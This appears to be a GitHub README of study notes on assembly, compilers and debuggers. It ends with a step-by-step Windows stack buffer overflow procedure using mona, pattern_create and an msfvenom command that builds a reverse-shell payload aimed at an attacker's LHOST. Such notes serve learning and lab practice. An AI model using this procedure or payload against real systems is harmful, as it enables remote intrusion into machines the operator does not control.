

# Assemblers
Converts assembly code into a machine code, object file.  The linker combines one or more object files into an executable.
Assemble assembly (.asm) -> object (.obj).  Link objects (.obj) -> executable (.exe).

##### [Microsoft Macro Assembler MASM](https://docs.microsoft.com/en-us/cpp/assembler/masm/microsoft-macro-assembler-reference)
x86 assembler that uses Intel syntax for MS-DOS and Windows.

##### [GNU Assembler GAS](https://www.gnu.org/software/binutils/)
GNU Project.  Default backend for GCC.

##### [Netwide Assember NASM](https://www.nasm.us/)
x86 architecture for 16-bit, 32-bit (IA-32), and 64-bit (x86-64).  Widely used on Linux.

   * ##### [NASM-X](https://forum.nasm.us/index.php?topic=1853.0)
   * ##### [NASM-X Download](https://sourceforge.net/projects/nasmx/)
   * ##### [NASM-X](https://thlorenz.com/nasmx/nasmx1.html)

##### [Flat Assembler FASM](http://flatassembler.net/)
x86 architecutre.  Supports Intel syntax for IA-32 and x86-64.

# Assembly Instructions
##### Data Transfer:  MOV, XCHG, PUSH, POP
##### Arithmetic:  ADD, SUB, MUL, DIV, XOR, NOT
##### Control Flow:  CALL, RET, LOOP, Jcc (cc is any conditon)
##### Other: STI, CLI, IN, OUT

# Assembly Syntax
|          | Intel (Windows) | AT&T (Linux)   |
|----------|-----------------|----------------|
| Assembly | MOV EAX, 10     | MOVL $10, %EAX |
| Syntax   | dest, source    | source, dest   | 

AT&T prepends numbers with a $ and registers with a %.  Also, AT&T adds the register size to the end of the instruction.

|   | Register Size |
|---|---------------|
| B | 8-bit  (byte) |
| W | 16-bit (word) |
| L | 32-bit (long) |
| Q | 64-bit (quad) |

# C++ Tutorials
[C++ Programming Tutorial](https://web.archive.org/web/20120310172145/http://www.codepedia.com/1/CPP-Beginners-Tutorial)

[CPlusPlus.com](http://www.cplusplus.com/doc/tutorial/)

# Nasmx Tutorials
[ASM Community](http://www.asmcommunity.net/)

[ASM Test Department](https://web.archive.org/web/20120506051848/http://www.asmcommunity.net/archives/testdepartment)

[ASM Book](https://web.archive.org/web/20120303012646/http://www.asmcommunity.net/book)

[Iczelion's Tutorials](https://web.archive.org/web/20120510061910/http://www.asmcommunity.net/book/tutorials/iczelion)

# DEP & ASLR
[On the effectiveness of DEP and ASLR](https://msrc-blog.microsoft.com/2010/12/08/on-the-effectiveness-of-dep-and-aslr/)

# Compilers
[GCC online documentation](https://gcc.gnu.org/onlinedocs/)

[Compile .cpp from Command Prompt](https://docs.microsoft.com/en-us/cpp/build/walkthrough-compiling-a-native-cpp-program-on-the-command-line?view=msvc-170)
[cl](https://docs.microsoft.com/en-us/visualstudio/msbuild/cl-task?view=vs-2022)
[MSVC Compiler Options](https://docs.microsoft.com/en-us/cpp/build/reference/compiler-options?view=msvc-170)
```bash
# Open Visual Studio a developer command prompt
cl /EHsc hello.cpp
```

##### Dev-C++
[Orwell](http://orwelldevcpp.blogspot.com/)

[Embarcadero](https://www.embarcadero.com/free-tools/dev-cpp)

[Embarcadero at SourceForge](https://sourceforge.net/projects/embarcadero-devcpp/)

# Disassemblers
[objdump]()

[Online Disassembler](https://onlinedisassembler.com/odaweb/)

[Online List](https://mohamad-wael.medium.com/best-microsoft-windows-disassemblers-and-decompilers-6fdfbf9990de)


# Debuggers
| Debugger | OS |
|----------|----|
| [Immunity Debugger](https://www.immunityinc.com/products/debugger/) | Windows |
| [IDA](https://www.hex-rays.com/ida-pro/) | Windows, Linux, MacOS |
| [GDB](https://www.sourceware.org/gdb/)| UNIX, Windows |
| [X64DBG](https://x64dbg.com/) | Windows |
| [EDB](http://codef00.com/projects) | Linux |
| [WinDbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools) | Windows |
| [OllyDbg](http://www.ollydbg.de/) | Windows |
| [Hopper](https://www.hopperapp.com/) | Linux, MacOS |

# Decompilers

# Buffer Overflow Purposes
* Overwrite EIP with a JMP ESP point and execute payload written to ESP.  Since we do not know the address of ESP, we need a JMP ESP point to instruct the computer to execute the code at ESP.

* Overwrite EIP with an address of code within the program that is not readily accessible.

# Little-endian
Microsoft uses little-endian, in which the most significant byte is in the lowest or position.  Thus, an EIP of A(0x41), B(0x42), C(0x43), D(0x44) will be shown as 0x44434241.
When identifying an address to overwite EIP, the address must be reversed, before writing it to the EIP.

# Steps To Establish Reverse Shell On Windows
1. Open Immunity Debugger and configure mona working directory or use default. ```!mona config -set workingfolder c:\mona\%p```
2. Open application in Immunity Debugger and run.
3. Set IP Address, Port Number, and Prefix (if any) in fuzzer.py and run the script.
4. Note the length of the string that crashed the application.
5. Generate a cyclic pattern that is 400 characters longer than the string length that crashed the application. #PatternLength#
6. ```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <#PatternLength#>```
   *** Alternatively, can generate pattern with mona ```!mona pc <pattern length>```
7. Set exploit_step1.py payload to the cyclic pattern generated.
8. Restart the application and run exploit_step1.py.
9. Find the offset, with mona. ```!mona findmsp -distance #PatternLength#```
10. Mona should open a dialog: ```EIP contains normal pattern : ... (offset XXXX)```
11. Use this offset for all remaining steps.
12. Run exploit_step2.py, with the offset returned from mona.  Confirm the offset by the fact that the EIP should be filled with B's (41414141).
13. Find bad characters.  Bad characters such as NULL (0x00) will cause the program to cease execution or crash.  They must be identified and removed from any payload.
14. Generate a byte array that mona will use to compare with our payload and determine bad characers. ```!mona bytearray -b "\x00"```
    *** Alternatively, use mona's pattern offset ```!mona po <value stored in EIP>```
15. Restart the application.
16. Run exploit_step3.py, passing the variable all_bad as the payload.
17. Note the EIP address, in Immunity Debugger.
18. Use mona to identify bad characters, based on the byte array. ```!mona compare -f <mona's working directory>\bytearray.bin -a <EIP Address>```
19. A dialog should open, mona Memory comparison results.
20. Not all characters listed are necessarily bad.  Rerun step 14, adding the first bad character to the bytearray and remove that character from exploit_step3.py payload.
21. Repeat steps 14 - 20, until mona reports no bad characters.
22. Find a JMP ESP point, with mona.  ```!mona jmp -r esp -cpb "\x00"``` The JMP point will instruct the computer to execute the code at ESP.
23. Rewrite the JMP address in little-endian and set it as the RETN value in exploit_step4.py.  If the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
24. Generate a payload, using msfvenom, specifying the bad characters for -b. ```msfvenom -p windows/shell_reverse_tcp LHOST=<Attack IP Address> LPORT=<Port #> EXITFUNC=thread -b "\x00" -f c```
25. exploit_step4.py uses a NOP sled, so that the ESP address does not have to be exact.  The application will hit the NOP and continue until it finds code to execute.
##### Notes
After overwriting EIP, ESP points to the address just after the overriden EIP.  Any payload is written here.

# [Metasploit Module](https://taishi8117.github.io/2016/07/24/bof-metasploit/)

# Memory Illustrated
The stack grows from the highest memory address, down.




# Buffer Overflow References
##### [Exploiting Simple Buffer Overflow (1) - Super Basics](https://taishi8117.github.io/2015/11/07/stack-bof-1/)
##### [Exploiting Simple Buffer Overflow (2) - Shellcode + ASLR Bruteforcing](https://taishi8117.github.io/2015/11/11/stack-bof-2/)
##### [Exploiting Simple Buffer Overflow (3) - Writing a simple Metasploit module](https://taishi8117.github.io/2016/07/24/bof-metasploit/)

##### [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

##### [Mona](https://github.com/corelan/mona)

##### [Buffer Overflow attack tutorial - 0x00](https://www.youtube.com/watch?v=j7AEzGKuKUU)

##### [Buffer Overflows Made Easy - Part 1: Introduction](https://www.youtube.com/watch?v=qSnPayW6F7U)

##### [buffer-overflows.rst](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

##### [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)

##### [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)

##### [UNDERSTANDING BUFFER OVERFLOWS ATTACKS (PART 1)](https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/)

##### [What and where are the stack and heap?](https://stackoverflow.com/questions/79923/what-and-where-are-the-stack-and-heap)